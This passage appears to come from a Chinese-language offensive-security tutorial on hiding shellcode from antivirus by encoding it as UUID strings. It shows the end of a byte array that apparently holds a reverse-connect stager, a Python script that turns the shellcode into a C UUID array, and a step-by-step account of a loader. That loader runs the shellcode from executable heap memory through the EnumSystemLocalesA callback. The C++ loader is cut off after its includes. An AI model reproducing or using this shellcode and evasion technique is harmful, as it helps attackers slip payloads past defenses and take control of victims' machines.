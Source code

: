 ```python
shellcode += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shellcode += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shellcode += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shellcode += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shellcode += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shellcode += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shellcode += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shellcode += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shellcode += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shellcode += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x6a\x00\x53\xff\xd5"

# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```



## uuid写入shellcode

以下代码的主要目的是通过UUID加载并执行shellcode。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组`uuids`。
2. 创建一个具有执行权限的堆`hc`。
3. 在堆上分配一块可执行内存`buffer`。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在`buffer_backup`地址。
6. 使用`EnumSystemLocalesA`函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚举到的区域设置信息的回调函数的地址传递给`EnumSystemLocalesA`函数实现的。
7. 关闭内存句柄。

```cpp
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
using namespace std;

//用于存放shellcode转的uuid的数组
```